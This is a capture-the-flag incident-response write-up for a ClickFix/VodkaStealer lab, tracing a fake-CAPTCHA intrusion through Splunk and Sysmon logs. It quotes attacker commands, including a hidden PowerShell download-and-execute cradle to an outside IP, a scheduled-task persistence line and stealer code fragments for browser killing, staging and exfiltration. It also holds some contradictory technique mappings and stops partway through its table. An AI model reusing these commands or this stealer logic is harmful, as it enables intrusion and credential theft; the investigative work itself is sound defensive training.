

# ClickFix - VodkaStealer Lab

<p align="center">
  
</p>

# Table of Contents
- [Context](#context)
- [Scenario](#scenario)
- [Initial Access](#initial-access)
- [Execution](#execution)
- [Command and Control](#command-and-control)
- [Discovery](#discovery)
- [Privilege Escalation](#privilege-escalation)
- [Command and Control](#command-and-control-1)
- [Credential Access](#credential-access)
  * [Pass the Hash Detection and Correlation](#pass-the-hash-detection-and-correlation)
- [Lateral Movement](#lateral-movement)
- [Persistence](#persistence)
- [Collection](#collection)
- [Exfiltration](#exfiltration)
- [Defense Evasion](#defense-evasion)
- [Impact](#impact)
- [Attack Chain](#attack-chain)
  * [Text Tree](#text-tree)
- [Artifacts](#artifacts)
- [Lab Insights](#lab-insights)
- [Forensic Timeline](#forensic-timeline)

# Context

Lab link: [https://cyberdefenders.org/blueteam-ctf-challenges/clickfix-vodkastealer/](https://cyberdefenders.org/blueteam-ctf-challenges/clickfix-vodkastealer/)

Suggested tools: Registry Explorer, Splunk, FTK Imager

Tactics: Execution, Persistence, Privilege Escalation, , Defense Evasion, Credential Access, Discovery, Lateral Movement, Collection, Exfiltration, Impact

# Scenario

NextGen Financial Solutions' Security Operations Center flagged anomalous PowerShell activity on an employee workstation during routine monitoring. Initial triage traced the activity back to a legitimate external website that had been compromised with a ClickFix overlay - a fake CAPTCHA verification prompt that silently copies a malicious command to the visitor's clipboard and instructs them to paste it into the Windows Run dialog.

Before the incident response team could contain the threat, the attacker had already escalated privileges, moved laterally across the corporate network, and deployed a custom Infostealer dubbed "VodkaStealer" on multiple endpoints. Evidence suggests that sensitive data - including browser credentials, cryptocurrency wallet files, and internal documents - was collected, staged, and exfiltrated to an external server.

As the lead investigator, you have been provided with Splunk log data from all compromised hosts, along with disk images for forensic analysis. Your mission is to reconstruct the full attack chain, identify all compromised systems and accounts, and determine the scope of the data breach.

# Initial Access

**Q1**- The user visited a legitimate website that had been compromised with a ClickFix CAPTCHA overlay. What is the IP address of this website?

Answer: `3.122.229.6`

Reason: Workstation `10.10.11.252` requested `/captcha.html` from compromised host `3.122.229.6` at `2026-04-20 23:26:07`, confirming the site as the ClickFix delivery point: a fake Completely Automated Public Turing test to tell Computers and Humans Apart (CAPTCHA) page consistent with MITRE ATT&CK technique T1204.004 (User Execution: Malicious Copy and Paste).

Initial access host: `10.10.11.252` = `PAYOPS-WS-04` (`PAYOPS-WS-04.NextGen.local`)

```sql
index=* "CAPTCHA" http.url != "" event_type = http
|table _time, http.hostname, http.url, src_ip
```


# Execution

**Q2**- After interacting with the fake CAPTCHA, a PowerShell command was copied to the user's clipboard and executed via the Run dialog. What is the name of the payload file this command downloads?

Answer: `payload.ps1`

Reason: Sysmon (System Monitor) on `PAYOPS-WS-04` logged a PowerShell process spawning at `23:26:21`, seconds after the CAPTCHA request, executing a `DownloadString` cradle that pulled `payload.ps1` from `3.122.229.6`, mapping to MITRE ATT&CK technique T1059.001 (Command and Scripting Interpreter: PowerShell).

```sql
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" EventCode=1 Image=*powershell*
|table _time, Image, CommandLine

Image: C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
ProcessGuid: {c73af8d8-b61c-69e6-4c17-000000005600}
CommandLine: "C:\Windows\system32\WindowsPowerShell\v1.0\PowerShell.exe" -nop -w hidden -c "IEX(New-Object Net.WebClient).DownloadString('http://3.122.229.6/payload.ps1')"
```


# Command and Control

**Q3**- The initial payload established a command-and-control channel. What is the IP address of the C2 server?

Answer: `100.52.249.75`

Reason: Pivoting Suricata flow events from `10.10.11.252` isolated the sole non-internal, non-attacker-infrastructure destination: `payload.ps1` established an encrypted command and control (C2) channel to `100.52.249.75` over Transport Layer Security (TLS) on port `443`, ruling out a failed reverse shell to `165.245.213.184:4444` (`3ms` timeout) and benign Google/delivery traffic.

Sysmon Event ID 3 confirmed roughly 40,000 beacons from `rundll32.exe` to `100.52.249.75`, the C2 destination. Suricata flow analysis isolated this on `10.10.11.252` after ruling out a failed reverse shell to `165.245.213.184:4444` (3ms timeout) and benign Google/delivery traffic. `payload.ps1` hijacked the pre-existing `DataSyncPro` service by renaming the legitimate `Service.exe` to `Sync.exe` — exploiting the unquoted service path so Windows SCM executed it as SYSTEM on reboot — then spawned `rundll32.exe` as the CS beacon process. This aligns with MITRE ATT&CK T1574.009 (Hijack Execution Flow: Path Interception by Unquoted Path).

Note: The move command just renamed the file on disk — it didn't execute it. `Sync.exe` gets spawned later by the Windows Service Control Manager (SCM) after the reboot, because `DataSyncPro` is still registered as a service pointing to that path. So the parent of `Sync.exe` will be `services.exe`, not `cmd.exe`. That single event is the pivot point of the whole chain:

- Everything before it: `payload.ps1` → recon → `DataSync` hijack → reboot
- Everything after it: `rundll32.exe` beaconing to `100.52.249.75:443` as `NT AUTHORITY\SYSTEM`

```sql
# Brute force Suricata approach
index=* src_ip=10.10.11.252 dest_ip="100.52.249.75"

# Actual flag to watch out for, the move command
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" EventCode=1 ParentProcessGuid="{c73af8d8-b61c-69e6-4c17-000000005600}"
| table _time, Image, CommandLine, ProcessGuid, User
| sort _time
```


# Discovery

**Q4**- To find a privilege escalation vector, the attacker enumerated all Windows services and their properties. What is the WMI command used to retrieve service names, executable paths, and start modes?

Answer: `wmic service get name,pathname,startmode`

Reason: Windows Management Instrumentation Command-line (WMIC) service enumeration, piped through `findstr`, isolated `DataSync` as the hijack target. Both runs, parented to `payload.ps1` and executed under `NEXTGEN\.hesham` at Medium integrity, indicate attacker-directed reconnaissance ahead of the hijack, consistent with MITRE ATT&CK technique T1007 (System Service Discovery).

The `findstr /i "DataSync"` pipe on both runs means the attacker already knew the service name but was confirming the executable path and start mode (likely checking it was Auto start, so it would survive the reboot). The first run may have returned unexpected output, hence the second identical run 24 seconds later.

Attack chains so far:

- Chain 1 — Initial (pre-reboot): explorer.exe → powershell.exe (payload.ps1) {c73af8d8-b61c-69e6-4c17-000000005600} → cmd.exe children (recon, DataSync hijack, reboot)
- Chain 2 — Post-reboot: explorer.exe → powershell.exe (payload.ps1) {c73af8d8-b742-69e6-8617-000000005600} (approx., from 23:53:49) → cmd.exe children (same recon replay)
- Chain 3 — Service hijack beacon: SCM/services.exe → Sync.exe {c73af8d8-c151-69e6-4c00-000000005900} (spoofed) → rundll32.exe {c73af8d8-c152-69e6-5d00-000000005900} → C2 beacon to 100.52.249.75:443 as SYSTEM

```bash
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" EventCode=1 ParentProcessGuid="{c73af8d8-b61c-69e6-4c17-000000005600}" *wmi*
| table _time, Image, CommandLine, ProcessGuid, User
| sort _time

wmic service get name,pathname,startmode | findstr /i "DataSync"
```

# Privilege Escalation

**Q5**- The attacker exploited an unquoted service path vulnerability. What is the name of the service they exploited?

Answer: `DataSyncPro`

Reason: The command sequence confirms binary replacement at the legitimate service path, not unquoted-path interception: `sc stop DataSyncPro` halts the service, `move` displaces `Service.exe` to `Sync.exe`, and the malicious `Sync.exe` occupies the vacated `ImagePath` location at `C:\Program Files\DataSync Pro\`. Windows Service Control Manager (SCM) executes whatever binary sits at that path on reboot, regardless of the space in the path or its quoting, so the path's unquoted spaces are incidental rather than the exploited weakness. This maps to MITRE ATT&CK technique T1574.010 (Hijack Execution Flow: Services File Permissions Weakness), which also accounts for the privilege escalation from `NEXTGEN\n.hesham` at Medium integrity to SYSTEM post-reboot.

```
sc stop DataSyncPro                                            23:36:53
move "C:\Program Files\DataSync Pro\Service.exe" Sync.exe      23:40:18
shutdown /r /t 5 /f                                            23:41:23
```


**Q6**- To hijack the service execution flow, the attacker placed a malicious binary in a specific directory. What is the name of this malicious executable?

Answer: `Sync.exe`

Reason: The malicious executable is `Sync.exe`. Using the move command parented to `payload.ps1`, the attacker renamed the legitimate `Service.exe` to `Sync.exe` inside `C:\Program Files\DataSync Pro\`. This is service binary replacement (T1543.003), not unquoted path interception (T1574.009) — that technique targets an earlier ambiguous path segment, not the service's final directory. For the Service Control Manager (SCM) to execute a file literally named `Sync.exe`, the service's `ImagePath` registry value would need to reference `Sync.exe` directly, elevating execution to `SYSTEM` on reboot. Worth confirming via the registry key under `HKLM\SYSTEM\CurrentControlSet\Services` whether `ImagePath` was changed, or whether `Sync.exe` was instead dropped under the original `Service.exe` filename.

```sql
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=1 host="PAYOPS-WS-04" "Sync.exe"
ParentProcessGuid="{c73af8d8-b61c-69e6-4c17-000000005600}"
| table _time, Image, CommandLine, User, IntegrityLevel
| sort _time
```


# Command and Control

**Q7**- After successfully escalating privileges, a new process began beaconing to the C2 server as `SYSTEM`. What is the name of this process?

Answer: `rundll32.exe`

Reason: Following the reboot, Windows SCM executed the hijacked `Sync.exe` as `SYSTEM`, spawning `rundll32.exe` via parent process ID (PPID) spoofing (T1134.004). Sysmon Event ID 3 recorded 37,000+ outbound TCP connections from `rundll32.exe` (`{c73af8d8-c152-69e6-5d00-000000005900}`) to `100.52.249.75:443`. `T1218.011` is likely a Splunk correlation-rule tag, not native Sysmon output. Volume alone suggests C2 beaconing at `SYSTEM` integrity; confirming Cobalt Strike specifically needs a corroborating indicator like a JA3/JARM match.

Note: This is Chain 3: Service hijack beacon: SCM/`services.exe` → `Sync.exe` `{c73af8d8-c151-69e6-4c00-000000005900}` (spoofed) → `rundll32.exe` `{c73af8d8-c152-69e6-5d00-000000005900}` → C2 beacon to `100.52.249.75:443` as `SYSTEM`

```sql
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=3 host="PAYOPS-WS-04"
ProcessGuid="{c73af8d8-c152-69e6-5d00-000000005900}"
| table _time, Image, SourceIp, dest_ip
| sort _time
```


# Credential Access

**Q8**- At what time did the attacker first obtain full access to LSASS for credential dumping?

Answer: `2026-04-21 00:16:52`

Reason: Sysmon Event ID 10 recorded a `rundll32.exe` process, two levels down from the primary Cobalt Strike (CS) beacon (`{c73af8d8-c152-69e6-5d00-000000005900}`) spawned by `Sync.exe`, opening Local Security Authority Subsystem Service (LSASS) with `GrantedAccess=0x1fffff` (`PROCESS_ALL_ACCESS`). The `UNKNOWN` call trace indicates shellcode executing from unmapped memory rather than a legitimate module, consistent with LSASS memory access for credential dumping (T1003.001), likely achieved via process injection.

Current chain: `Sync.exe` (`SYSTEM`) → `rundll32.exe` CS beacon `{c73af8d8-c152-69e6-5d00-000000005900}` → child `rundll32.exe` → LSASS access `0x1fffff` at `00:16:52`. The `SourceProcessGuid` for the first LSASS access is `{c73af8d8-c1f3-69e6-4b01-000000005900}`. That's the `rundll32.exe` that did the dump.

```sql
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" host="PAYOPS-WS-04" EventCode=10 TargetImage="*lsass*" CallTrace="*UNKNOWN*"
| table _time, SourceImage, SourceProcessGuid, GrantedAccess, CallTrace
| sort _time
```


**Q9**- After harvesting credentials, the attacker used a stolen account for pass-the-hash lateral movement. What was the username of that account?

Answer: `k.mostafa.admin`

Reason: The account used for pass-the-hash (PtH) lateral movement is `k.mostafa.admin` (T1550.002). The correlation is temporal: Sysmon Event ID 10 recorded `rundll32.exe` (`{c73af8d8-d66c-69e6-e206-000000005900}`) accessing LSASS with `GrantedAccess=0x1010` at `01:44:13`, followed 29 seconds later by an NT LAN Manager (NTLM) network logon (Event ID 4624, `LogonType=3`) from `10.10.11.252` (PAYOPS-WS-04) to `BCHAIN-WS-11` at `01:44:42`. This is suggestive, not conclusive; confirming PtH also needs `AuthenticationPackageName=NTLM` on the logon event, since Kerberos logons also occur without an observed plaintext password but aren't PtH. T1550.002: Use Alternate Authentication Material: Pass the Hash.

```sql
index=* source="WinEventLog:Security" EventCode=4624
LogonType=3 AuthenticationPackageName=NTLM
| table _time, host, TargetUserName, IpAddress
| sort _time
```


## Pass the Hash Detection and Correlation

Pass the hash (PtH) works because NTLM challenge-response authentication only ever needs the hash, not the underlying plaintext password. Once an attacker has the NTLM hash, typically pulled straight out of `lsass.exe` memory via credential dumping, that hash alone is sufficient material to authenticate to other systems. There is no cracking step and no recovered password; the hash is passed directly into the authentication exchange, which is what gives the technique its name and its speed. In the case worked here, `rundll32.exe` accessed LSASS with `GrantedAccess=0x1010` and an `UNKNOWN` call trace, then `k.mostafa.admin`'s hash was used for an NTLM logon to `BCHAIN-WS-11` less than thirty seconds later, with no plaintext credential ever appearing anywhere in between.

What makes this hard to catch is that the resulting authentication event looks completely unremarkable on its own. A `4624` logon with `LogonType=3` and `AuthenticationPackageName=NTLM` is also produced by every legitimate NTLM network logon on the network, so there is no single field in that event that marks it as PtH versus ordinary traffic. The tell is not in any one log entry, it is in the relationship between two separate events in two separate log sources. Without first flagging the credential-dumping event, the logon event by itself gives an analyst nothing to act on.

Detection has to anchor on temporal correlation rather than a shared identifier, since there is no common Globally Unique Identifier (GUID) or session token linking the dump to the logon. Two signals get pulled and lined up by timestamp:

```
index=* source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=10 TargetImage="*lsass*" CallTrace="*UNKNOWN*"
| table _time, SourceImage, SourceProcessGuid, GrantedAccess, CallTrace
| sort _time
```

```
index=* source="WinEventLog:Security" EventCode=4624 LogonType=3 AuthenticationPackageName=NTLM
| table _time, host, TargetUserName, IpAddress
| sort _time
```

The first identifies the dumping process, host, and time; the `UNKNOWN` call trace is what marks the LSASS access as shellcode or injection rather than a legitimate module call. The second identifies the resulting network logon, and `AuthenticationPackageName=NTLM` is the field doing the real work, since it is what rules out Kerberos logons, which also show no visible plaintext password but are not PtH. A short delta between the two timestamps, on the order of seconds, is the correlating signal.

On MITRE Adversarial Tactics, Techniques, and Common Knowledge (ATT&CK) placement, this maps cleanly to `T1550.002`, Use Alternate Authentication Material: Pass the Hash, under the parent `T1550` tactic for reuse of stolen authentication material. Unlike the Git hook case, there is a dedicated sub-technique here, so the mapping is fully specific rather than falling back to a parent technique.

# Lateral Movement

**Q10**- The attacker used the compromised domain admin's credentials to move laterally to a file server. What is the IP address of this server?

Answer: `10.10.11.81`

Reason: The file server `COMP-FS-01` resolves to `10.10.11.81`, confirmed via Sysmon Event ID 22 (DNS query) for `COMP-FS-01` returning that address. Combined with the pass-the-hash (PtH) logon from `10.10.11.252` to `COMP-FS-01` at `00:30:45`, this is consistent with lateral movement to the file server using `k.mostafa.admin`'s harvested NTLM hash, though confirming PtH on this hop specifically still requires the same `AuthenticationPackageName=NTLM` field on that logon event, per the established correlation pattern.

```sql
index=* EventCode=22 QueryName="COMP-FS-01"
|table _time, QueryName, answer
```


**Q11**- A common lateral movement technique involves creating a temporary service on the target machine. What is the name of the service binary created on the file server?

Answer: `2fdb156.exe`

Reason: The service binary dropped on `COMP-FS-01` is `2fdb156.exe`. Sysmon Event ID 11 recorded the System process (PID 4) writing `C:\Windows\2fdb156.exe` at exactly `00:30:45`, the same timestamp as the pass-the-hash (PtH) logon from `10.10.11.252` using `k.mostafa.admin`. The System-owned write is itself the SMB (Server Message Block) over Windows Admin Shares (T1021.002) signature: `C:\Windows\` is the local path behind the `ADMIN$` share, and the SMB server driver delivers the write in kernel mode, attributing it to `System` (PID 4) directly rather than through a process creation chain, which is why no parent process exists for it. The randomized filename matches Cobalt Strike's `psexec`-style lateral movement module, which drops a randomly-named binary, registers it as a service via the Service Control Manager (T1569.002), executes it, then deletes it.

```sql
index=* "COMP-FS-01" EventCode=11 "2fdb156.exe"
|table _time, Image, TargetFilename
```

```xml
<Event
	xmlns='http://schemas.microsoft.com/win/2004/08/events/event'>
	<System>
		<Provider Name='Microsoft-Windows-Sysmon' Guid='{5770385F-C22A-43E0-BF4C-06F5698FFBD9}'/>
		<EventID>11</EventID>
		<Version>2</Version>
		<Level>4</Level>
		<Task>11</Task>
		<Opcode>0</Opcode>
		<Keywords>0x8000000000000000</Keywords>
		<TimeCreated SystemTime='2026-04-21T00:30:45.598452600Z'/>
		<EventRecordID>4247</EventRecordID>
		<Correlation/>
		<Execution ProcessID='2276' ThreadID='2572'/>
		<Channel>Microsoft-Windows-Sysmon/Operational</Channel>
		<Computer>COMP-FS-01.NextGen.local</Computer>
		<Security UserID='S-1-5-18'/>
	</System>
	<EventData>
		<Data Name='RuleName'>-</Data>
		<Data Name='UtcTime'>2026-04-21 00:30:45.597</Data>
		<Data Name='ProcessGuid'>{A55F24E4-2393-69E6-EB03-000000000000}</Data>
		<Data Name='ProcessId'>4</Data>
		<Data Name='Image'>System</Data>
		<Data Name='TargetFilename'>C:\Windows\2fdb156.exe</Data>
		<Data Name='CreationUtcTime'>2026-04-21 00:30:45.597</Data>
		<Data Name='User'>NT AUTHORITY\SYSTEM</Data>
	</EventData>
</Event>
```

# Persistence

**Q12**- To maintain access, the attacker created a scheduled task on all compromised machines. What is the full path of this scheduled task?

Answer: `\NextGen\DataSync Update`

Reason: The scheduled task path is `\NextGen\DataSync Update`, created by the Cobalt Strike beacon (`rundll32.exe`) across all three compromised hosts — `PAYOPS-WS-04`, `COMP-FS-01`, `BCHAIN-WS-11` — for persistence (T1053.005). The standout detail isn't the execution-context variation itself but the `01:03:34` task on `PAYOPS-WS-04`: it ran as `NEXTGEN\n.hesham` with the password exposed in cleartext via `/rp`, a second compromised credential distinct from `k.mostafa.admin`.

```
schtasks /create
  /tn "NextGen\DataSync Update"   — task name (full path under NextGen folder)
  /tr "<payload>"                 — task run: binary or script to execute
  /sc daily                       — schedule: runs once per day
  /st 09:00                       — start time: 09:00 local
  /ru SYSTEM                      — run as: NT AUTHORITY\SYSTEM (or n.hesham in one variant)
  /rp "Welcome@2026"              — run password: plaintext cred exposed in cmdline (n.hesham variant only)
  /f                              — force: overwrites existing task without prompt
```

Payload evolution so far:

| Time | Host | Payload | Run-as |
| --- | --- | --- | --- |
| `00:50:20` | `COMP-FS-01` | `C:\ProgramData\svc_update.exe` | `SYSTEM` |
| `00:53:06` | `PAYOPS-WS-04` | `C:\ProgramData\svc_update.exe` | `SYSTEM` |
| `01:03:34` | `PAYOPS-WS-04` | `C:\ProgramData\svc_update.exe` | `NEXTGEN\n.hesham` (`Welcome@2026`) |
| `01:20:32` | `PAYOPS-WS-04` | `C:\ProgramData\svc_update.ps1` | `SYSTEM` |
| `01:50:18` | `BCHAIN-WS-11` | `C:\ProgramData\svc_update.ps1` | `SYSTEM` |

```sql
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" CommandLine="*schtasks \/create*"
|table _time, CommandLine, Image, ParentImage, host

C:\Windows\system32\cmd.exe /C schtasks /create /tn "NextGen\DataSync Update" /tr "powershell.exe -nop -w hidden -ep bypass -File C:\ProgramData\svc_update.ps1 -SkipChecks" /sc daily /st 09:00 /ru SYSTEM /f
```


**Q13**- The scheduled task was configured to execute a script. What is the filename of this script?

Answer: `svc_update.ps1`

Reason: The script executed by the scheduled task is `svc_update.ps1`. The final variant of the `\NextGen\DataSync Update` task (deployed on `PAYOPS-WS-04` at `01:20:32` and `BCHAIN-WS-11` at `01:50:18`) ran `powershell.exe` with `-ep bypass -File C:\ProgramData\svc_update.ps1`, replacing the earlier `svc_update.exe` payload. The filename evolution from `vodkastealer_emulator.ps1` to `svc_update.ps1` is naming evidence consistent with masquerading (T1036.005), the file disguised as a legitimate update service, but a rename alone doesn't confirm the script's actual behavior or family; that needs a hash match or content/behavioral review of `svc_update.ps1` itself.

# Collection

**Q14**- The malicious script forcefully terminates browser processes to unlock their data files. What are the two browser processes it targets?

Answer: `opera.exe`, `msedge.exe`

Reason: The lab answer lists `opera.exe` and `msedge.exe` as the script's targets, but Sysmon correlation across Event ID 1 (`taskkill`) and Event ID 5 (termination) on `PAYOPS-WS-04` only supports `opera.exe` as a confirmed hit; `msedge.exe` was targeted but never running (0 terminations), which is sound. The `firefox.exe` attribution is the part that doesn't fully hold up against the data shown: there's no Event ID 1 `taskkill` command for `firefox.exe` in this excerpt at all, yet 13 termination events exist for it. Either there's a third `taskkill` line missing from what's shown here, or those terminations have an unrelated cause (browser closed normally, crashed, environment teardown) and shouldn't be folded into the script's actions without a corresponding Event ID 1 entry to back it up.

On intent, killing browser processes before a credential/cookie theft attempt is a known precursor: it releases the file lock on the browser's SQLite-backed credential and cookie stores so a stealer can read them cleanly, consistent with the earlier `VodkaStealer` identification — worth mapping alongside T1555.003 (Credentials from Web Browsers) rather than treating the `taskkill` step as an isolated event.

```powershell
# svc_update.ps1 relevant part, obtained from PowerShell operational logs, event 4101
function Invoke-BrowserKill {
    Write-Verbose "[*] Killing browser processes to unlock DB files..."
    $browsers = @("chrome", "msedge", "brave", "opera", "vivaldi", "browser", "firefox")
    foreach ($browser in $browsers) {
        $procs = Get-Process -Name $browser -ErrorAction SilentlyContinue
        if ($procs) {
            &amp; taskkill /F /IM "$browser.exe" 2&gt;$null | Out-Null
            Write-Verbose "  Killed: $browser.exe ($($procs.Count) instances)"
        }
    }
}
```

```powershell
"taskkill" source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational"
| table  _time, EventDescription, CommandLine, Image, ParentImage, host
```

```
Event ID 1 (taskkill attempts) — PAYOPS-WS-04:
  01:33:45 — taskkill /F /IM msedge.exe
  01:33:45 — taskkill /F /IM opera.exe

Event ID 5 (actual terminations) — PAYOPS-WS-04:
  opera.exe   → 209 termination events
  firefox.exe → 13 termination events
  msedge.exe  → 0 termination events
```


**Q15**- The attacker creates a staging directory to store collected data before exfiltration. What is the full name of the staging directory created during the first execution?

Answer: `sysinfo_US_10.0.0.1_210420260133`

Reason: The staging directory is `sysinfo_US_10.0.0.1_210420260133`. This was reconstructed in two stages, which is the methodology worth preserving here: first via static analysis of the `New-StagingDirectory` function in `svc_update.ps1`, which defines the naming convention as `sysinfo_{CountryCode}_{PublicIP}_{DD}{MM}{YYYY}{HH}{mm}`; then confirmed dynamically, since Sysmon Event ID 11 shows `systeminfo.txt` (consistent with T1082, System Information Discovery) written into that exact directory on `PAYOPS-WS-04` at `01:33:46`, a second after the parsed `01:33` timestamp component.

```powershell
function New-StagingDirectory {
    $now = Get-Date
    $dirName = "sysinfo_{0}_{1}_{2:D2}{3:D2}{4:D4}{5:D2}{6:D2}" -f `
        $script:CountryCode, `
        $script:PublicIP, `
        $now.Day, $now.Month, $now.Year, $now.Hour, $now.Minute
    $stagingPath = Join-Path $env:TEMP $dirName
    New-Item -ItemType Directory -Path $stagingPath -Force | Out-Null
    Write-Verbose "[*] Created staging dir: $stagingPath"
    return $stagingPath
}
```

```sql
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" "sysinfo"  Image="C:\\Windows\\System32\\WindowsPowerShell\\v1.0\\powershell.exe"
| table  _time, EventDescription, Image, host, ProcessGuid, TargetFilename
```


# Exfiltration

**Q16**- The attacker exfiltrated the stolen data to an external server. What is the IP address of the data exfiltration server?

Answer: `165.245.213.184`

Reason: The exfiltration server is `165.245.213.184`, the same IP used in the earlier failed reverse shell attempts, indicating shared attacker infrastructure for both command and control (C2) and exfiltration. Pivoting on the `ProcessGuid` of the `svc_update.ps1` execution (`{c73af8d8-d3f5-69e6-8f06-000000005900}`) ties the same process that built the staging directory to the process that made the outbound connection, rather than relying on timing alone. Sysmon Event ID 3 recorded that connection at `01:33:49`, three seconds after the staging directory was created, confirming immediate exfiltration after collection. This fits T1041 (Exfiltration Over C2 Channel) if the connection rides the same protocol/port family as the existing beacon traffic, or T1048 (Exfiltration Over Alternative Protocol) if it's a distinct channel; the port and protocol on that Event ID 3 entry is what settles which sub-technique applies.

```powershell
Invoke-Exfiltration -StagingDir $stagingDir -TargetIP $ExfilIP -TargetPort $ExfilPort
```

```sql
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" ProcessGuid="{c73af8d8-d3f5-69e6-8f06-000000005900}" EventCode=3
| table  _time, EventDescription, Image, host, ProcessGuid, dest_ip
```


**Q17**- The attacker exfiltrated data from a second workstation using a different port. What was the destination port for this exfiltration?

Answer: `4444`

Reason: Pivoting on the `ProcessGuid` of the `svc_update.ps1` execution on `BCHAIN-WS-11` (`{c73af8d8-d7f3-69e6-db19-000000005600}`) extends the same correlation method used on `PAYOPS-WS-04`. Sysmon Event ID 3 recorded an outbound connection to `165.245.213.184:4444` at `01:51:27`, confirming the same exfiltration infrastructure was reused across both compromised workstations. Port `4444` ties this directly to the earlier reverse shell attempts against the same IP, and as a non-standard port distinct from the HTTPS Cobalt Strike beacon channel (`100.52.249.75:443`), this maps to T1048 (Exfiltration Over Alternative Protocol) rather than T1041, since exfil here rides its own raw channel rather than piggybacking on existing C2 traffic.

```sql
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" ProcessGuid="{c73af8d8-d3f5-69e6-8f06-000000005900}" EventCode=3
| table  _time, EventDescription, Image, host, ProcessGuid, dest_ip, dest_port
```


# Defense Evasion

**Q18**- After moving laterally, the attacker attempted to clean up their tools on the file server. At what time (HH:MM:SS) was the lateral movement service binary deleted?

Answer: `00:30:47`

Reason: Sysmon Event ID 23 (`FileDelete`) on `COMP-FS-01` recorded the System process deleting `C:\Windows\2fdb156.exe` two seconds after it was written (Event ID 11 at `00:30:45`), placing the deletion at `00:30:47`. This is consistent with Cobalt Strike's `psexec`-style lateral movement pattern: drop a temporary service binary, execute it, then delete it immediately to reduce forensic footprint, mapping to T1070.004 (File Deletion) for the cleanup step. The same System-attribution logic from the write event applies here too: the deletion is logged against PID 4 because the SMB server driver tears down the file in kernel mode as part of the same `ADMIN$`-delivered service lifecycle, not because a separate process initiated the delete with its own lineage to trace.

```sql
source="XmlWinEventLog:Microsoft-Windows-Sysmon/Operational" EventCode=23 host="COMP-FS-01" TargetFilename="*2fdb156.exe*"
| table  _time, EventDescription, Image, host, ProcessGuid
```


# Impact

**Q19**- By recovering the v2 `svc_update.ps1` stealer code, how many execution phases are defined in the script?

Answer: 6

Reason: The script defines six execution phases, recovered directly from PowerShell script block logging via the explicit comment-block headers in the source: Phase A (pre-flight, geo check and mutex), Phase B (browser kill), Phase C (staging directory), Phase D (data collection), Phase E (exfiltration), Phase F (cleanup). This phase structure lines up cleanly with the artifacts already walked through in this chain: B is the `taskkill` activity against `opera.exe`/`firefox.exe`, C is the `sysinfo_US_10.0.0.1_210420260133` directory, D is `systeminfo.txt` and whatever else landed in that directory, and E is the `165.245.213.184` connections on both hosts, so the labeled phases map directly onto the observed Sysmon telemetry rather than being a separate, unverified claim.

```
# ---- PHASE A: Pre-Flight (geo + mutex only) ----
# ---- PHASE B: Browser Kill ----
# ---- PHASE C: Staging Directory ----
# ---- PHASE D: Data Collection ----
# ---- PHASE E: Exfiltration ----
# ---- PHASE F: Cleanup ----
```

# Attack Chain

| Time (UTC) | Stage | Detail | MITRE |
| --- | --- | --- | --- |
| `2026-04-20 23:26:07` | Initial Access | `n.hesham` visits compromised site `3.122.229.6` serving ClickFix CAPTCHA overlay at `/captcha.html` | T1566.002 |
| `2026-04-20 23:26:21` | Execution | `explorer.exe` spawns `powershell.exe` executing `IEX DownloadString('http://3.122.229.6/payload.ps1')` from Run dialog | T1059.001 |
| `2026-04-20 23:29:30` | Discovery | `payload.ps1` runs `whoami`, `systeminfo`, `ipconfig`, `net user`/`group` via `cmd.exe` children | T1082, T1069 |
| `2026-04-20 23:33:18` | Discovery | `wmic service get name,pathname,startmode | findstr /i "DataSync"` enumerates services for hijack candidate | T1007 |
| `2026-04-20 23:36:53` | Privilege Escalation | `sc stop DataSyncPro` halts the vulnerable service | T1574.010 |
| `2026-04-20 23:40:18` | Privilege Escalation | `move Service.exe Sync.exe` — malicious binary placed at registered service `ImagePath` | T1574.010 |
| `2026-04-20 23:40:23` | C2 | `payload.ps1` establishes TLS beacon to `100.52.249.75:443` | T1071.001 |
| `2026-04-20 23:41:23` | Execution | `shutdown /r /t 5 /f` forces reboot to trigger hijacked service | T1529 |
| `2026-04-21 00:14:25` | Execution | SCM executes `Sync.exe` as `SYSTEM` post-reboot; spawns `rundll32.exe` CS beacon via PPID spoofing | T1218.011, T1134.004 |
| `2026-04-21 00:16:51` | Execution | CS beacon spawns hollow child `rundll32.exe`; named pipe `\postex_789a` created | T1055, T1218.011 |
| `2026-04-21 00:16:52` | Credential Access | `rundll32.exe` opens LSASS with `GrantedAccess=0x1fffff` (`PROCESS_ALL_ACCESS`) | T1003.001 |
| `2026-04-21 00:22:16` | Credential Access | Subsequent LSASS reads with `GrantedAccess=0x1010` extract NTLM hashes | T1003.001 |
| `2026-04-21 00:26:16` | Discovery | Domain recon: `net view`, `nltest /dclist:NEXTGEN`, `net group "Domain Computers"` | T1018, T1482 |
